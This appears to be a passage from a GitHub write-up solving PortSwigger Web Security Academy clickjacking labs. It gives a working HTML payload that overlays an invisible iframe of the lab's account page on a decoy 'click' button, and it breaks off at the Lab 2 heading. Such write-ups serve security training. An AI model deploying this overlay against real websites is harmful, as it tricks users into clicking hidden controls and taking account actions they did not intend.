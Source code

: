 <img width="862" height="132" alt="image" src="https://github.com/user-attachments/assets/e223dc13-5502-48fc-8897-e803237d7b2a" />



![lab1-1](images/Basic%20clickjacking%20with%20CSRF%20token%20protection/1.png)

```html
<head>
  <style>
    #target_website {
      position: relative;
      width: 600px;
      height: 600px;
      opacity: 0.1;
      z-index: 2;
    }
    #decoy_website {
      position: absolute;
      width: 600px;
      height: 600px;
      z-index: 1;
    }
    #btn {
      position: absolute;
      top: 480px;
      left: 90px;
    }
  </style>
</head>
<body>
  <div id="decoy_website">
    <button id="btn">click</button>
  </div>
  <iframe id="target_website" src="https://id-yours.web-security-academy.net/my-account"></iframe>
</body>
````

![lab1-result1](https://github.com/user-attachments/assets/89f5a12c-e14e-4464-96fa-a6baab78579b)
![lab1-result2](https://github.com/user-attachments/assets/5ce94d83-bb8c-44b7-a9ed-fc24795ce026)

Change the opacity to 0.0000 to make the page invisible:

![lab1-opacity](https://github.com/user-attachments/assets/346ee79e-b398-4c3c-84fd-4a2507e2877b)

Once the victim clicks, lab shows solved:

![lab1-solved](https://github.com/user-attachments/assets/77349e48-5635-4411-822b-ac171560f593)

---

### LAB 2 - Clickjacking with form input data prefilled from a URL parameter
